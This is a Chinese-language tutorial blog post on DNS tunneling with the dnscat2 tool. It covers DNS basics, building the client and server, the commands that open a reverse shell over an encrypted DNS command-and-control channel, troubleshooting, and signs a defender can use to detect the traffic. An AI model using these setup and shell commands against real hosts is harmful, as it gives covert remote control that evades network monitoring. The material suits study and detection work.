


项目地址：[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)
### DNS介绍
DNS是域名系统(Domain Name System)的缩写，是因特网的一项核心服务，它作为可以将域名和IP地址相互映射的一个分布式数据库，能够使人更方便的访问互联网，而不用去记住能够被机器直接读取的IP数串。
DNS的记录类型有很多，有A，AAAA,CNAME,MX,SOA,NS等。
DNS Tunneling可以利用其中的一些记录类型来传输数据。例如A，MX，CNAME,TXT，NULL等。
```
A记录：A记录是用来指定主机名对应的ip地址记录，简单的说A记录是指定域名对应的IP地址。

AAAA记录：记录将域名解析到一个指定的ipv6的ip上

CNAME记录，别名解析。可以将注册不同的域名解析到一个ip地址。

NS记录：域名服务器记录，用来指定该域名是由哪个DNS服务器进行解析。

MX记录:指向的是一个邮件服务器。

TXT记录：一般是指某个主机名或域名的说明

PTR记录：反向DNS
```
DNS的解析过程可以分为两种类型：迭代查询和递归查询。通常本机到Local DNS Server的过程属于递归查询，而Local DNS Server对查询域名的解析过程属于迭代查询。为了减轻Local DNS Server的压力，提高解析速度，引入了缓存机制。缓存和TTL紧密相连，当TTL过期，Local DNS Server则会丢弃缓存的数据，重新从权威域名服务器上获取新的数据。
本地客户端---->Local DNS server---->根域服务器
Dns解析过程：系统发出dns解析之前会先看看本地是否保存了相关域名的解析，系统检测到hosts文件中没有响应的域名解析的时候会发送给本地dns解析服务器进行解析，解析之前会看看缓存中是否存在，如果没有，再将解析请求发给下一个dns服务器。结果返回后将该域名的解析结果保存到缓存中。
### DNSCat2 工具介绍
Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。
Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。
### DNSCat2 环境搭建
#### LInux 客户端搭建
```shell
git clone https://github.com/iagox86/dnscat2
cd dnscat2/client/
make
```
#### Linux 服务端搭建
```shell
# 有ruby 环境下
# 无ruby 环境 apt install ruby-full，我的ruby是2.7
cd dnscat2/server
gem install bundler
apt install ruby-dev
bundler install
```
### 反弹shell
首先在服务端运行
```shell
# root 模式下
cd dnscat2/server
ruby dnscat2.rb
```
然后在服务端banner信息中可以看到，如下所示的命令，在客户端处执行

```shell
cd dnscat2/client
make
./dnscat --dns server=127.0.0.1,port=53 --secret=c229df179cba2226828cd03ff13859a4
```


在服务端执行
```shell
windows -a
```

进入会话

```shell
window -i 1
```



退出当前通道，进入shell
```shell
suspend
windows -a
window -i 2
```


#### 错误分析

1. 地址被占用


```shell
netstat -ntlp
```

```shell
# 关闭之后无法上网，这个是dns解析
systemctl stop systemd-resolved.service
```

运行服务端之后，一直告知`warning: Capturing the given block using Kernel#proc is deprecated; use `&block` instead`

```shell
# 将错误重定向到指定文件即可
ruby dnscat2.rb  2> error
```
[
](https://github.com/iagox86/dnscat2)
### 流量检测
在使用dnscat2 利用dns隧道进行反弹shell，那么作为防守方该如何检测呢？
#### 特征dnscat
首先在客户端处，会向恶意服务端发送dns请求，且会一直发送，包里都有相同的特征dnscat

#### 域名特征
其次可以看到解析的域名很长，不符合正常域名
 
####  对比正常dns 解析流量包
正常dns域名解析包如下，通过对比可以发现dnscat2 的特征是非常明显的，正常包是不会有加密


